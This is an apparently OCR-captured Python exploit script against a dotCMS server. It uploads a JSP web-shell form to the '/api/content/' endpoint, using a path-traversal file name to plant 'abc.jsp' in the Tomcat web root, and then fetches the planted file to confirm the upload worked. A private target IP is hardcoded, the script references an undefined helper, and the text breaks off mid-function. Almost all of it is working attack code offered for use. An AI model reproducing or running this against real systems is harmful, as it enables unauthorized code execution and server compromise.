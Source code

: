     def make_shell():
        shell = """<FORM>
        <INPUT name='cmd' type=text>
        <INPUT type=submit value='Run'>
    </FORM>
    <%@ page import="java.io.*" %>
        <%
            File jsp=new File(getServletContext().getRealPath(File.separator) + File.separator + "#{test_file}");
            jsp.delete();
    %>
        """
        return shell

    def exploit(base_url,url,files,args):
        #https://{ip}:{port}/dotAdmin
        try:
            r = requests.get(url,verify=False,timeout=3)
        except Exception as e:
            return False


        new_url = base_url + "/api/content/"
        try:
            response = requests.post(new_url , files=files, verify=False)
        except Exception as e:
            print("/api/content/ error")
            return False
        print(response.status_code)

        url = base_url + "/abc.jsp"
        print(url)
        try:
            r = requests.get(url,verify = False)
            print(r.status_code)
            print(r.text)
            if r and r.status_code == 200:
                print("success")
        except Exception as e:
            print("error")

        print("completed exploit")
        return True

    def main ():
        args = {
            'RPORT': '8443',
            'TARGETURI': '/',
            'METHOD': 'GET',
            'rhost': '192.168.50.48'
        }

        base_url = find_base_url(args)
        shell = make_shell()  
        files = {f"../../../../../../../../../srv/dotserver/tomcat-9.0.41/webapps/ROOT/html/js/dojo/abc.jsp": shell}
        #files = {f"../../abc.jsp": shell}
